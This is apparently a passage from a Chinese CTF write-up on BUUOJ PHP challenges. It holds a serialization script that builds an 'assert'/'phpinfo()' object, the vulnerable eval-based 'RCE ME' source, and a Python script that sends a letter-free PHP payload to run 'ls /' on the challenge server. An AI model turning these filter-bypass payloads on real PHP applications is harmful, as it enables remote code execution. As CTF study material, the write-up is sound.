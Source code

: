 exp

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "phpinfo()";
        $this->b = "assert";
    }
}
$c = new HelloPhp;
echo serialize($c);
?>
```



### [极客大挑战 2019]RCE ME



自己把这题想太简单了...

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

直接给出源码，以为就是无字母RCE

```python
import requests

url='http://92da1379-95ac-4207-a36f-6893dc2e3534.node4.buuoj.cn:81/?code='
file={
    "file":"ls /"
}

data='?><?=`.+/???/????????[@-[]`?>'
r=requests.get(url=url+data,files=file)
if "t*" in r.text:
    print('执行成功\n')
    print(r.text)
else:
    print('执行失败')
    print(r.text)

```
